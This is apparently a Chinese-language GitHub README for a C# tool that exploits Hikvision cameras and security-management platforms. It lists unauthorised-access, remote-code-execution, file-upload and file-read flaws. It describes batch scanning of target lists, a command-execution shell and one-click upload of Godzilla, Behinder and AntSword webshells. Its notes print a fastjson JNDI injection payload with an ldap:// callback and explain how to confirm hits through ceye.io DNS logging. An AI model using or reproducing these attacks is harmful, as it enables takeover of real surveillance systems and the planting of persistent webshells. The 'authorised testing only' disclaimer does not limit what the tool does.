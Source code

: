 # Hikvision综合漏洞利用工具

没事写个工具，
程序采用C#开发,
首次使用请安装依赖：
NET8.0
声明：仅用于授权测试，用户滥用造成的一切后果和作者无关
请遵守法律法规！

https://dotnet.microsoft.com/zh-cn/download

海康威视综合漏洞利用工具 收录漏洞如下：

Hikvision 摄像头未授权访问漏洞

Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyCT命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

Hikvision keepAlive远程代码执行漏洞

Hikvision综合安防管理平台orgManage任意文件读取漏洞

Hikvision综合安防管理平台files任意文件读取漏洞

# 功能介绍

批量检测模块：

模块如下：Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

webshell利用模块
Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

cmshell命令执行模块
Hikvision 远程代码执行漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

# 功能使用

默认模块可一键扫描所有漏洞

![image](https://github.com/MInggongK/Hikvision-/blob/main/e10adc3949ba59abbe56e057f20f883e.jpg)

选择模块可单独选择你要检测的模块，输入目标，点击选择模块即可检测漏洞

批量检测内置路径：/hikvision.txt
hikvision.txt文本放入你要检测的网站列表
默认批量检测，批量扫描所有模块的漏洞

选择模块，可单独选择你要检测的模块，点击选择模块即可

Cmdshell模块：
选择模块进行漏洞验证，如果存在，在cmdshell输入你要执行的命令即可

webshell利用模块：

内置Godzilla
Behinder
AntSword
cmd
四种类型的shell
一个测试文件

具体使用方法：选择模块进行验证
如isecure center
如果漏洞存在
可选择内置类型，如测试文件
点击getshell isecure上传即可



自定义上传
如果存在isecure漏洞
可自定义shell代码，
选择自定义模块
如自定义isecure
填入你要的shell代码，文件名，如demo.jsp
点击自定义上传即可

# 编写小记
Hikvision applyCT ceye api精准识别技巧
目前已取消，考虑到批量识别可能会阻塞网络，因此没有采取这个方法
{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://"\",\"autoCommit\":true},\"hfe4zyyzldp\":\"=\"}
默认
默认插入POST json数据进行测试
访问api:
查找id:
id	"1870408864"
这里存在一个问题
如果dns缓存不清除，可能存在误判
{"meta": {"code": 200, "message": "OK"}, "data": [{"id": "1870408864", "name": "", "remote_addr": 
这里会造成误判，DNS缓存清除需要cookie
那么怎么不使用COOKIE解决这个问题呢？
可以直接在调用前，产生随机数
   Random random = new Random();
    int randomNumber = random.Next(1, 100); // 生成一个1到100之间的随机整数
   Console.WriteLine(randomNumber);
然后进行拼接：然后直接赋给   randomNumber + "." + textBox4.Text;
这样每一次生成都是会递增的循环产生随机数
如9090.38.22.xxxx.ceye.io
2222.9090.38.22.xxxx.ceye.io
3422342.9090.38.22.xxxx.ceye.io
通过访问API token,会查找ID值进行判断
http://api.ceye.io/v1/records?token=“token&type=dns&filter=
  if (s.Contains(3422342.9090.38.22.xxxx.ceye.io))
   {
比对发出的请求：
如96.93.13.4.90.38.22.2skv3a.ceye.io
没发出一次，自动生成1次，这样就判断精准了
取随机不断的递增，再递增去比较存在的值
如果找到，就存在漏洞，否则漏洞不存在
但是这个只适用于单个识别，批量识别还需要写另外验证方法

# 更新日志

Hikvision综合漏洞利用工具 v1.7版
增加了批量指纹识别功能
默认识别Server识别
set-Cookie识别
放入你要检测的批量网站，点击识别即可
增加了Hikvision综合安防管理平台orgManage任意文件读取漏洞检测（含批量检测）
增加了Hikvision综合安防管理平台files任意文件读取漏洞检测（含批量检测）
感谢ling1uan提到的issues问题，修复了report漏洞构造请求体的Bug











